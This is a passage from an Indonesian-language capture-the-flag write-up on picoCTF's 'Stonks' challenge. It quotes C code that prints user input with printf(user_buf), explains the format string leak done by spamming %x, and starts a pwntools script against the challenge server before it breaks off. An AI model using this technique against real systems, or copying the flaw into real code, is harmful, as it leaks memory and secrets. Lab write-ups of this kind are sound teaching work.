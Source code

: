 ```
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```
Sepertinya celahnya ada di bagian ini. Program membaca data dari file ```api``` dan disimpan di buffer bernama ```api_buf```. Lalu program menerima input untuk API key, menampilkan API key yang diinput, dan mencetak portofolio. Sekilas tidak ada yang aneh.

Eh tunggu, kenapa habis diinput perlu diprint hasil inputnya? kan udah ada di awal secara ini pake ```scanf``` jadi ngapain diprint 2 kali?? Sepertinya ini celah sesungguhnya. Tapi apa ya?

Setelah melakukan searching, ku menemukan website yang membahas [ini](https://security.stackexchange.com/questions/43574/how-is-printf-in-c-c-a-buffer-overflow-vulnerability) dan ternyata memang benar ```printf``` bisa menjadi medium untuk melancarkan serangan menggunakan ```Format String Vulnerability```. Jadi intinya, printf itu argumen pertamanya bisa berupa string format macam ```%x```. Karena ini hasil buffer input nya langsung diprint lewat ```printf```, kita bisa main main disini untuk nge-print sesuatu dari stack. Nah, cara kerja printf itu, bila ada string formatter, dia akan nge-```pop``` data dari stack. Kalau kita spam ```%x``` misal, kita bisa ngeluarin semua isi stack.

Terus apa hubungannya dengan mendapatkan flag?

Ingat, stack itu menerapkan prinsip LIFO (Last In First Out), artinya data yang terakhir di-```push``` akan menjadi yang pertama di-```pop```. Dengan kata lain, data yang di-```pop``` itu data yang lebih lama. 

Sekarang ingat lagi, data apa saja yang sudah pernah di-```push``` ke stack sebagai argumen?

Yak benar, alamat buffer file tempat API key berada. Sepertinya kita perlu spam print macam ```%x``` sampai kena alamat buffer file yang kemudian bakal terprint lah flagnya.

**2. Get the flag**

Karena kita tidak bisa langsung menggunakan %s dikarenakan value yg distack belum tentu buffer string, paling aman menggunakan %x yang ngeprint nilai hex nya. Berhubung nguli 1 1 cape nih ya, mending kita pake script aja buat ngerjainnya. Yang recommended sih pake library ```pwntools``` di Python. Untuk installnya bisa dengan:
```
python3 -m pip install --upgrade pwntools
```
Untuk mencoba pwntoolsnya kita bisa buat script sederhana untuk mencoba connect ke server dan mengirimkan input payload yakni %x sebanyak 1 buah
```
import pwn

#connect ke server
r = pwn.connect('mercury.picoctf.net',59616)

#tunggu sampai prompt aksi kelar
r.recvuntil('2) View my portfolio\n')

#kirim input
r.send("1\n")

#tunggu sampai prompt API key muncul
```